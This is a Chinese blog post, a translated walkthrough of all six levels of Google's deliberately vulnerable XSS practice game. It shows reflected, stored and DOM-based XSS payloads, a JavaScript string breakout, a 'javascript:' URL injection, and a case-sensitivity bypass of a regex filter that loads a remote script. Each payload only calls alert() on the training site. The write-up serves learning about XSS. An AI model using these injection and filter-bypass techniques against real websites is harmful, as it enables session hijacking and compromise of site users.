 ```yaml
---
layout: post
title: google xss game 通关攻略
date: 2019-01-12
modified: 2019-01-12
categories: 
- 

tags:
- 翻译
---
```


<!-- # google的xss游戏通关攻略 -->
## [『第一关』](https://xss-game.appspot.com/level1)
第一关是个非常脆弱的反射性xss攻击。向url或者form表单中注入xss代码都可以实现攻击。把下面的俩例子粘贴到表单中，点击搜索按钮：
```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```
<!-- more -->
如果把上面的俩例子注入到url中，点击go按钮（这个按钮是这个假浏览器的一部分），攻击可以生效。唯一的限制就是，如果拼接到url后面代码中包含一个分号，是不会起作用的。上面的第二个例子中，也可以省略分号，因为这script脚本只有一行。

但是，如果把分号用url编码成`%3B`,然后注入到url中，也可以攻击生效。注意，还需要在攻击代码之前添加`?query=`。因此就是连接下面三个片段：
1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

那么完整的url就是：

```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```


## [『第二关』](https://xss-game.appspot.com/level2)
第二关是一个关于存储型的xss攻击。这一关的做了一些过滤，防止你直接注入`script`标签。但是img标签是可以用的。而img标签允许可以添加一些监听函数（比如可以增加`onerror`），这里面是包含js代码的。

```
<img src="x" onerror="alert('xss')">
```

一旦攻击代码通过表单提交，每次载入这个页面，我们的js代码就可以在用户的浏览器运行--或者任何人--只要他们访问了这个网页。这也是为什么存储型的xss比反射性的危害更大。

我没有找到一个直接向url中注入代码的方法。

## [『第三关』](https://xss-game.appspot.com/level3)
为了通过第三关，我只能使用Safari (10.0.3)，因为Firefox (51.0.1) and Chrome (55.0.2883.95)都阻止向url中注入一个空格，不管有没有进行url编码。我用下面的url在safari中成功通过第三关。
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
但我还是想用firefox通过。所以我拷贝了safari中叫做level3的cookie。我做了一下的步骤：
1. 我设置safari使用Burp proxy。
2. 我用上面的方法通过第一关和第二关。
2. 我用上面的添加了攻击代码的url访问访问第三关。当alert()弹出的时候，游戏就会设置一个叫做level3的cookie。
1. 我复制了这三个cookie
    ```
    level1=f148716ef4ed1ba0f192cde4618f8dc5; level2=b5e530302374aa71cc3028c810b63641; level3=d5ce029d0680b3816a349da0d055fcfa;
    ```
下面的代码是如何在火狐和chrome的开发者工具的console窗口设置新的cookie
```
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```

现在就可以在火狐或者Chrome中进入下一关。不像那个由这个游戏设置的cookie，我们自己手动设置的cookie在此次回话结束后就过期。所以，如果你现在关闭`xss- game.appspot.com`的标签页，再重新打开这个网页，就会发现无法到第四关。这是因为第三关的cookie在刚才回话结束后就失效了。因此，最好的办法是手动给cookie设置过期时间的`expire`属性。

```
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa;expires=' Fri, 22 July 2022 5:34:56 GMT'";
```
也可以像这样设置cookie的其他属性，这里关于`document.cookie`[说明][2]非常详细。
 
组装img的代码， 如果我使用单引号提前截断，就可以注入
https://xss-game.appspot.com/level3/frame#1' onerror="alert(1)"/>

## 『第四关』
我没做出来。我谷歌了一些答案，但是并没有得到预期的结果。最终，我发现，在这三个浏览器中，如果你把下面的字符串输入到表单中，然后点击「create button」按钮，它是可以生效的。
```
');alert();var b=('
```

但是，要想直接注入url中使攻击生效，你必须对攻击的字符串进行url编码：
```
%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

有很多网站可以替你做这些。但是他们有bug，不可信。最近，我开始使用一个在python2.7在默认包含的方法。

```python
>>> import urllib
>>> foo = "');alert();var b=('"
>>> urllib.quote_plus(foo)
'%27%29%3Balert%28%29%3Bvar+b%3D%28%27'
```

记住，在变量的赋值中，用双引号包裹攻击字符串。也不要忘记，移除python在输出结果外边的单引号。在python3中有轻微的不同。我在StackExchange.com的一个[答案][3]中学到了这个。

与第一关中的url拼接类似，我们需要向攻击的字符串中添加合适的变量名，以及在变量名之前添加`?`和变量名之后添加`=`。也就是说连接下面的几个部分:
1. `https://xss-game.appspot.com/level4/frame`
2. `?timer=`
3. `%27%29%3Balert%28%29%3Bvar+b%3D%28%27`

这样可以得到：
```code
https://xss-game.appspot.com/level4/frame?timer=%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

然后点击这个假的浏览器中的『go』按钮。

## [『第五关』](https://xss-game.appspot.com/level5)

为了通过这一关，需要按照以下的步骤：
1. 点击『sign up』链接。
2. 在下一页，url会变成这样：

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```
  
   在url中把`next`的值从`confirm`变成`javascript:alert(1)`。
3. 点击假浏览器中的『go』按钮。点击这个按钮可以改变『Next >>』的`href`连接的地址。在点击『go』按钮之前，如果把鼠标悬浮到『Next >>』上，目标地址是：

   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```

   实际中，`href`的值相对路径连接，只是一个『confirm』。当把『confirm』变成`javascript:alert(1)`，url就被设置为：
   
   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```

   此时，点击『go』按钮，把鼠标悬浮到『Next >>』上，目标地址是：

   ```
   javascript:alert(1)
   ```
  
   用户手动编辑了url后，『href』的链接就变成用户的输入。
4. 点击『Next >>』链接，会显示一个弹出框，这个游戏会设置一个新的cookie，显示一个信息框，提示说你可以进入下一关。

我认为这个课程是说如果你不能注入标签，你也可以注入在真实的资源标识符前面添加`javascript:` 。我不得不点击所有四个提示，直到我按照提示4的连接[this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00)

## [『第六关』](https://xss-game.appspot.com/level6)

对于第六关，我得好好找找答案。实际上，这是一个客户端自定义的正则表达式的匹配过滤，这个过滤大小写敏感，过滤掉`http` or `https`开头的url。所以，一下是一个成功的url：

```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```

我用了一个[xss.rocks][4]无害的js文件

我没有猜答案。我查看了源代码，看到在接下来的函数中阻止我注入`http`或者`https`.我也没把正则表达式拿来测试。我在 w3scholl.com ["Try It" page][5]测试js
字符串的match()方法.

这个函数可以再源代码的57行看到：
```javascript
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```

其中的正则`/^https?:\/\//`可以匹配`http`或者`https`。如果开发者增加了i标记，这个正则就可以匹配大写或者小写。大小写不敏感的正则是`/^https?:\/\//i`。

我猜这一关的课主要是告诉你，应该浏览所有的源代码，看看开发者是不是写了客户端过滤的代码，看看他们是不是也犯错误。


[1]: https://xss-game.appspot.com/
[2]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie
[3]: http://stackoverflow.com/a/9345102
[4]: http://xss.rocks/
[5]: http://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_match_regexp2

